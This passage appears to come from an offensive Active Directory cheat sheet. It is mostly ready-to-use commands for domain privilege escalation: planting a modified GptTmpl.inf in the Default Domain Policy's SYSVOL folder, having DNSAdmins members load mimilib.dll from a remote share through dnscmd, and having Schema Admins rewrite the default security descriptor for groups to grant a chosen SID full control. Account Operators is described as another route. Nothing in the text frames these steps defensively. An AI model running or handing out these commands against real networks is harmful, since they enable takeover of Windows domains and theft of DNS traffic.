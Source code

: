 ````
[Privilege Rights]
...snip...
```

#### Upload GptTmpl.inf
```
robocopy "C:\users\public" "\\<FQDN DC>\sysvol\<DOMAIN>\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /b
```

#### Wait for gpupdate
```
gpupdate /force
```



### Account Operators
The group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers. By default it has no direct path to Domain Admin, but these groups might be able to add members to other groups which have other ACL's etc.

Paths to domain admins can be created if Exchange is installed for example since the Account Operator group can manage Exchange groups which have high privileges to the domain object. If they are created high privileged groups within the domain, there is a big chance that there is a path to gain access to other machines or domain admins using this group!

### DNS Admins
#### Enumerate member of the DNS admin group
```
Get-DomainGroupMember "DNSAdmins"
```

#### From the privilege of DNSAdmins group member, configue DDL using dnscmd.exe (needs RSAT DNS)
Share the directory the ddl is in for everyone so its accessible.
logs all DNS queries on C:\Windows\System32\kiwidns.log 
```
dnscmd <dns server> /config /serverlevelplugindll \\<ip>\dll\mimilib.dll
```

#### Restart DNS
```
sc \\<dns server> stop dns
sc \\<dns server> start dns
```

### Schema Admins
- Use the ADModule not Powerview!

#### Get User SID
- This user will have privileges for new objects
```
Get-ADUser <USER> -Properties * | Select-Object Samaccountname, Objectsid
```

### Modify schema - group
- Using the `SID` of previous command
- This will give us full control over the groups that are created **after** the modification.
- Use the ADModule not Powerview!
```
Set-ADObject -Identity "CN=group,CN=Schema,CN=Configuration,DC=<DOMAIN>,DC=local" -Replace @{defaultSecurityDescriptor = 'D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPLCLORC;;;AU)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;<SID>)';} -Verbose
```

````